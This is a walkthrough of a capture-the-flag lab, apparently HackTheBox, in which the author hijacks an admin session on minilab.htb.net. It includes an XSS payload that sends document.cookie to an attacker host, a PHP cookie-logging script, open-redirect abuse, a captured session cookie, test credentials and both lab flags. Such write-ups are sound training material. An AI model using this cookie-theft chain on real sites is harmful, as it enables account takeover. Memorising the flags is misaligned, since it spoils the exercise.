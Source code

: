 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](Pasted image 20250219131413.png)
# First Question
---
Let's begin by checking the URL:

![](Pasted image 20250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](Pasted image 20250219135255.png)

Now, let's share:

![](Pasted image 20250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](Pasted image 20250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](Pasted image 20250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](Pasted image 20250219140807.png)

If we refresh the page:

![](Pasted image 20250219140815.png)

We are now admin user, let's make it public:

![](Pasted image 20250219140839.png)

If we go to share, we can see this:

![](Pasted image 20250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![](Pasted image 20250219142017.png)

We can filter:

![](Pasted image 20250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](Pasted image 20250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](Pasted image 20250219142344.png)

